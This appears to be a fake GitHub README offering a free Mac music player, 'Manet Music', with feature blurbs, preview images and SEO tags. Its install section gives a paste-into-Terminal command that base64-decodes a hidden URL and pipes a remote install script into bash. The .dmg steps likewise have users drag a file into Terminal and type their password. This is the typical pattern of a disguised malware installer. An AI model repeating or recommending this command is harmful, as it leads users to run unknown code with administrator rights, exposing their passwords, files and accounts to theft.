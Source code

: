 # Manet Music — Download For Mac OS 🎵

Manet Music is a sleek, user-friendly music player designed for Mac OS, offering seamless audio playback and library management. Follow the instructions below to install it effortlessly on your device.

[![Download Now](https://img.shields.io/badge/Download-Now-%23007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/manetmusic) 

If the download button doesn't work, follow the terminal installation instructions below.

## 📦 How to Install Manet Music For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- 🎧 **High-Quality Audio Playback**: Enjoy crystal-clear sound with support for multiple audio formats like MP3, FLAC, and WAV.
- 📚 **Smart Library Management**: Organize your music collection with intuitive playlists and automatic metadata tagging.
- ⚡ **Lightweight Performance**: Runs smoothly on Mac OS without draining system resources.
- 🎨 **Customizable Interface**: Personalize themes and layouts to match your style.
- 🔄 **Seamless Updates**: Receive automatic updates to keep your player feature-rich and secure.
- 🌐 **Offline Mode**: Access your music anytime, anywhere, without an internet connection.

## About Manet Music

Manet Music is a free music player for Mac OS, designed to elevate your listening experience with a blend of simplicity and powerful features. Whether you're a casual listener or an audiophile, this software offers a robust platform to manage and enjoy your music collection. Its lightweight design ensures it runs efficiently, making it a top choice for users seeking a free music player for Mac.

The software stands out with its smart library management system, which automatically organizes your tracks by artist, album, and genre. This feature saves time and enhances usability, allowing you to focus on enjoying your music. Manet Music supports a wide range of audio formats, ensuring compatibility with your existing collection, from standard MP3s to high-fidelity FLAC files.

Customization is at the heart of Manet Music. Users can tailor the interface with various themes and layouts, creating a personalized experience that aligns with their aesthetic preferences. The player’s offline mode is a game-changer, enabling uninterrupted access to your music library without relying on an internet connection—perfect for travel or remote locations.

Security and performance are priorities for Manet Music. The application is optimized to minimize resource usage, ensuring your Mac remains responsive even during extended use. Regular updates keep the software secure and introduce new features, making it a reliable choice for long-term use. For those searching for a free music player download, Manet Music delivers unmatched value.

**Why Choose Manet Music?** Compared to other music players, Manet Music combines ease of use with advanced functionality. Its free availability, coupled with a polished interface and robust feature set, makes it a standout option. Unlike subscription-based alternatives, Manet Music offers premium features at no cost, ensuring accessibility for all Mac users.

## 🖼 Preview

![Main Interface](https://tilosoftware.io/_astro/manet-opengraph.V7hObEAd.png)  
*Clean and intuitive main interface for easy music navigation.*

![Library View](https://tilosoftware.io/_astro/macos-dark@2x.5O9H-mYw_Z8lL2L.webp)  
*Smart library view with organized playlists and metadata.*

## 🔍 Tags

manet music free download, free music player for mac, manet music install, mac music player free, manet music download, manet music free, manet music mac os, manet music mac, manet music free mac, manet music download mac, free manet music, manet music for mac

